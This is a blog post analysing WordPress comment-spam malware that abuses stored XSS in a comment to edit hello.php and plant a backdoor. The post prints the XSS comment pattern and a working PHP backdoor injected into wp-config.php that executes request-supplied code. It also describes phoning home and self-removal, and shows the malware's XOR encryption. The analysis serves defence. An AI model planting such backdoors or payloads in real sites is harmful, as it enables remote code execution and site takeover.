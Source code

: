 ```yaml
---
layout: post
title: Exploring malicious wordpress comment spam
tags:
 - wordpress
 - security
 - code
 - analysis
 - encryption
---
```


I found an interesting piece of WordPress malware. In this post, I'll dig into the nitty-gritty of
how it works.

<!--more-->

**DISCLAIMER:** The contents of this post may contain code that is unsafe to run. The
purpose of this post is purely exploratory and meant for defensive purposes, and not as an intro to
1337 hax0ring. If you use the knowledge below for bad, don't blame me when the feds' party van comes
for you. Your actions are your own.

*Last updated on 2014-01-07 17:25 CST*

### Introduction ###

I manage a few WordPress websites in my spare time. Most of the sites don't have comments enabled,
but a few do, so on occasion I'll be alerted to new comments. The majority of those comments are
spam (usually having something to do with advertising SEO opportunities) and thus are left in the
purgatory of the moderation queue. However, one would-be comment was different from the usual
fake-SEO tripe. This post will examine this particular comment and explore its malicious properties.

*Tl;dr? see the summary at the bottom of this post.*

### The raw comment ###

This is the email notification I received when the comment was created. It includes the relevant
metadata as well as the raw comment itself:

{% highlight text %}
A new comment on the post "Post" is waiting for your approval
POST-URL

Author : Wasia (IP: 50.63.194.123 , p3nlhg1391.shr.prod.phx3.secureserver.net)
E-mail : aaa@aaa.com
URL    :
Whois  : http://whois.arin.net/rest/ip/50.63.194.123
Comment:
Welcome to WordPress. This is your first post. [<a title="]" rel="nofollow"></a>[\" <!--
style=\'position:fixed;top:0px;left:0px;width:6000px;height:6000px;color:transparent;z-index:999999999\'
onmouseover="eval(atob(\'naughty-javascript-in-base-64-goes-here'))" &gt; --><a></a>] Edit or delete it, then start blogging!

Approve it: APPROVE-URL
Trash it: TRASH-URL
Spam it: SPAM-URL
Currently 100 comments are waiting for approval. Please visit the moderation panel:
PANEL-URL

{% endhighlight %}

The comment appears to be setup to force anyone who visits the page it inhabits to run some
obfuscated javascript (the large chunk of characters within the <code>eval(atob())</code> ).

### De-obfuscating the comment's JavaScript ###
De-obfuscation of the javascript is accomplished by decoding the block of characters inside of the
atob() function call from base-64. It's now clear that this script is trying to create an iframe on
the page and fill it with the wordpress installation's plugin editor in order to edit the
<code>hello.php</code> plugin. If the desired changes have already been made, then it will instead
set the iframe to run the modified <code>hello.php</code> script.

But what are those changes? I found the answer by decoding a base-64 string that was being added (in
decoded form) to <code>hello.php</code>. It turned out to be a chunk of PHP that serves to exploit
incorrect file permission settings to allow for arbitrary remote code execution. 

### Overview of the modifications to hello.php ###

The main target of the attack appears to be <code>wp-config.php</code>, a file that holds important
settings for WordPress sites (like database access credentials). The script injects some code into
<code>wp-config.php</code> (reproduced in a more readable form below):

#### Injection into wp-config.php ####
{% highlight php linenos=table %}
<?php
if (isset($_REQUEST['FILE'])){
    $_FILE = $_REQUEST['unique-value-here']('$_',$_REQUEST['FILE'].'($_);');
    $_FILE(stripslashes($_REQUEST['HOST']));
}
?>
{% endhighlight %}

It appears that by adding this code the attacker can execute arbitrary code contained in a
specially-crafted request to <code>wp-config.php</code>. Specifically, any request with the 'FILE'
variable set will execute the code supplied by the request variable with the same name as a unique
ID generated previously in the script. This provides the attacker with the ability to limit access
to this exploit. 

Next, the script moves to correct the permissions of <code>wp-config.php</code> in order to prevent
other attackers from gaining control (a consistent theme in this script, as will be shown below).
Another consistent theme of this attack is the clever hiding of modified files' modification dates.
This ensures that a simple directory listing doesn't give away that the exploit has occurred. 

#### Phoning home: report() ####

In order for the attacker to make use of the now-compromised site, it is necessary for them to
obtain the unique ID in the script. The <code>report()</code> function sends that and the WordPress
installation's host to a hardcoded list of sites. The reporting action is accomplished via a series
of HTTP GET requests containing this information as a URL parameter.

#### Basic encryption: Uno_encode() ####

{% highlight php %}
<?php
function Uno_encode($String)
{
    $Salt='dc5p9dOpBc';
    $StrLen = strlen($String);
    $Seq = 'DMEf5HZuPq';
    $Gamma = '';
    while (strlen($Gamma)<$StrLen)
    {
        $Seq = pack("H*",sha1($Gamma.$Seq.$Salt));
        $Gamma.=substr($Seq,0,8);
    }

    return base64_encode($String^$Gamma);
}
?>
{% endhighlight %}

The data reported back to the attackers is first encrypted by the <code>Uno_encode()</code>
function. It's notable because it doesn't use a standard cryptosystem (like AES or RSA);
instead, it takes a much simpler approach by creating a sort of static key and then XORing it with
the string to be encrypted. Decryption can be accomplished by sending the base-64 decoded ciphertext
through the same function, like this:

{% highlight php %}
<?php
function Uno_decode($String)
{
    return base64_decode(Uno_encode(base64_decode($String)));
}
?>
{% endhighlight %}

Of course, this requires that you know the values for <code>$Salt</code> and <code>$Seq</code> (as
well as the rest of the algorithm), so it's reasonably secure as long as those secrets aren't known.
Unfortunately for the attackers, now they *are* known, and they now wish they had chosen an asymmetric
algorithm instead (since exposing a public key wouldn't have also exposed their communications).

#### Self-patching and self-removal ####

After modifying <code>wp-config.php</code> and reporting back, the script takes steps to hide its
tracks and secure the injected code's place in the WordPress installation. First, it removes the
original malicious comment from the MySQL database. Next, it patches the WordPress installation by
modifying the <code>wp-comments-post.php</code> file to completely block the posting of new
comments. It's definitely a sledgehammer approach to fixing the vulnerability used in this exploit,
but it works as long as no one gets curious as to why new comments can't be posted. Finally, the
script removes itself from <code>hello.php</code>. It uses an MD5 hash value at the bottom of the script
as a boundary marker to indicate where the malicious script ends and the original content begins. 

### Summary ###

This exploit originates as a comment designed to look like the default WordPress post. The first
time it's viewed it runs some JavaScript which adds the PHP previously described to a plugin,
<code>hello.php</code>. The second time the comment is viewed it executes the plugin, in turn
running code that

 1. injects more PHP into the WordPress installation's settings file, <code>wp-config.php</code>,
 2. sends information back to the attackers (allowing them to execute
arbitrary code with a specially-crafted request using the injected code from 1.),
 3. removes the comment, and
 4. removes the malicious code added to <code>hello.php</code>.

#### Requirements for vulnerability ####

Now that I've gone through the exploit I think I can speculate as to what it would take for a
WordPress site to be vulnerable to it. It seems to require the following to be true:

 1. Commenting must be enabled
 2. Commenting must be open to everyone
 3. Comments must be automatically approved (no moderation queue)
 4. The web server (or whatever entity is running WordPress) must be able to write to the WordPress
    installation directory

Number 4 is the big one, since many folks installing WordPress themselves can make the easy mistake
of using incorrect file system permissions.


### Final thoughts ###

Something that struck me as odd was that there wasn't an immediate attempt to exfiltrate the
database access credentials. Wouldn't a list of valid credentials be valuable?

### BONUS -- A CONNECTION TO ANOTHER EXPLOIT?! ###

I got curious about the MD5 hash (<code>49de371511c1de3bde34b0108ec7f129</code>) at the bottom of
the PHP code that gets added to <code>hello.php</code> and did some googling. [This
guy](https://www.planetspork.com/w/2014/11/this-seems-interesting/) had someone try to use
shellshock to add some PHP to his site, and as part of the PHP's access control it compares the MD5
of the requesting browser's user agent to the MD5 hash value listed at the bottom of the PHP in this exploit.
It seems that the same entity might be responsible for both exploits.

### References / Resources Used ###
 * [Base-64 decoder](https://www.base64decode.org/) to decode the base-64 strings
 * [w3schools](http://www.w3schools.com/jsref/met_win_atob.asp) to brush up on basic JavaScript
 * [The PHP Manual](http://php.net/manual/en/index.php) for a refresher on common PHP functions
 * The \#crypto channel on the [Freenode IRC network](http://freenode.net/)
